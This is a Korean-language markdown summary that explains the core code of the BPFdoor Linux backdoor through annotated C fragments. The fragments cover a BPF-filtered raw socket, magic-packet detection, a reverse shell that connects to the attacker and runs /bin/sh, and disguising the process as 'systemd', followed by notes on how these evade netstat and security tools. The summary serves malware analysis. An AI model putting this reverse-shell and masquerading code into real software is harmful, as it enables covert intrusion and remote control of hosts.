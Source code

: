 
```markdown
# 🧠 BPFdoor 핵심 코드 요약

```c
#include <linux/filter.h>     // BPF 필터
#include <sys/socket.h>       // 소켓
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/prctl.h>        // 프로세스 이름 위장
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
```

---

## 1️⃣ RAW 소켓 생성 + BPF 필터 장착

```c
int sock_raw = socket(PF_INET, SOCK_RAW, IPPROTO_TCP);  // TCP 패킷 감청용 RAW 소켓

struct sock_filter filter_code[] = {
    // BPF 명령어: 특정 IP/포트 필터링
};

struct sock_fprog bpf_program = {
    .len = sizeof(filter_code)/sizeof(struct sock_filter),
    .filter = filter_code,
};

setsockopt(sock_raw, SOL_SOCKET, SO_ATTACH_FILTER, &bpf_program, sizeof(bpf_program));  // 필터 부착
```

📌 **목적:** 커널 수준에서 특정 패킷만 감시하도록 필터링 (매직 패킷 감지)

---

## 2️⃣ 매직 패킷 수신 및 파싱

```c
char buffer[4096];
struct sockaddr_in source;
socklen_t slen = sizeof(source);

recvfrom(sock_raw, buffer, sizeof(buffer), 0, (struct sockaddr *)&source, &slen);

// IP 및 TCP 헤더 오프셋 계산 후, 매직 값 확인
if (check_magic(buffer)) {
    handle_command(&source);
}
```

📌 **목적:** 특정 패턴(매직 값)이 포함된 패킷이 오면 쉘을 띄움

---

## 3️⃣ 쉘 실행 로직

```c
int sock = socket(AF_INET, SOCK_STREAM, 0);
connect(sock, (struct sockaddr *)&target, sizeof(target));  // 공격자 연결

dup2(sock, 0);  // stdin
dup2(sock, 1);  // stdout
dup2(sock, 2);  // stderr

char *args[] = {"/bin/sh", NULL};
execve("/bin/sh", args, NULL);  // 쉘 실행
```

📌 **목적:** 리버스 셸 구현 – 공격자 명령을 받아 실행 결과를 다시 전달

---

## 4️⃣ 프로세스 위장

```c
prctl(PR_SET_NAME, "systemd", 0, 0, 0);  // 프로세스 이름 위장
```

📌 **목적:** `ps`, `top` 등에서 위장된 이름으로 표기되어 탐지 회피

---

# 🔁 전체 흐름 요약
1. RAW 소켓 생성  
2. BPF 필터로 특정 패킷 수신  
3. 매직 패킷 확인 후 공격자에게 연결 시도  
4. 입출력 리디렉션 후 `/bin/sh` 실행  
5. 프로세스 이름을 `systemd` 등으로 위장  

---

# ✅ 이 코드를 통해 알 수 있는 특징
- 포트를 열지 않기 때문에 `netstat`, `ss`로 탐지 불가  
- BPF는 커널 레벨 필터로 동작 → 보안 솔루션 탐지 우회  
- root 권한이 필요함  
- 리버스 셸이므로 공격자가 먼저 접속하지 않으면 흔적 없음
```

